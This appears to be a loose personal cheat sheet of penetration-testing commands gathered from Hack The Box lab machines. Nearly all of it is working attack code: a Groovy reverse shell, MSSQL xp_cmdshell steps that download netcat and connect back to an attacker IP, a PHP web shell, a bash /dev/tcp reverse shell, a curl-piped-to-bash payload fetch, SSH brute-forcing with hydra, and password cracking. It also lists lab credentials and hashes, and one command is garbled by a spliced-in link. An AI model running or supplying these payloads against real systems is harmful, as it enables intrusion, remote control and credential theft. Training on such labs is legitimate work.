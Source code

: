 Temp:
h!B@h18.htb:h!B@h18.htb1

how to jenkins bruteforce?

SSTI,XSS,blob:https://app.hackthebox.com/32caa1fd-54a8-499f-acea-b27d3e03c561

recon enumeration
system enumeration

mike:Sheffield19
a56ef91d70cfbf2cdb8f454c006935a1


SMBCLIENT

smbclient -N -L \\\\{TARGET_IP}\\
smbclient -L 10.129.209.18 -U Administrator
smbclient \\\\10.129.209.18\C$ -U Administrator

Groovy rs
String host="10.10.14.23";
int port=8001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


Home:
id
ss -tln // skip service names
ss -tl 
ss -tlpn

Util:
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts

JOHN:
zip2john backup.zip > hashes
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
gzip -d /usr/share/wordlists/rockyou.txt.gz 
john --show hashes

hashid 2cb42f8734ea607eefed3b70af13bbd3


Enumeration:
sudo nmap -sV 10.129.227.248
nmap -sV -sC -p- 10.129.158.230 -oN scan.txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.158.230 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 10.129.158.230


#Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt

cd impacket/examples/
python3 mssqlclient.py -h

SELECT is_srvrolemember('sysadmin');

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.78/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.78 443"
[xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
10.10.14.9 443"
wget http://10.10.14.78:8000/winPEASx64.exe -outfile winPEASx64.exe
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

Services:
FTP:
ftp anonymous@10.129.241.156
anonymous:anonymous

Postgresql:
psql -U christine -h localhost -p 1234
\l \list 
\c \connect ${database}
\dt ##relations
SELECT * FROM flag;

Bruteforce:
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh



Cloud:
AWS:
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell. s3://thetoppers.htb


#Reverse shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.23/1337 0>&1

nc -nvlp 1337

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.23:8000/rs.sh|bash
python3 -m http.server 8000


#tunneling 
local port forwarding
ssh -L 1234:localhost:5432 christine@{target_IP}

dynamic port forwarding
/etc/proxychains4.conf
ssh -D 1234 christine@{target_IP}
1. Ensure that strict_chain is not commented out; ( dynamic_chain and random_chain should be
commented out)
2. At the very bottom of the file, under [ProxyList] , we specify the socks5 (or socks4 ) host and port
that we used for our tunnel
<SNIP>
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1234
proxychains psql -U christine -h localhost -p 5432

#Reverse php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#tftp
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default
root directory where files will be stored is /var/lib/tftpboot

curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'
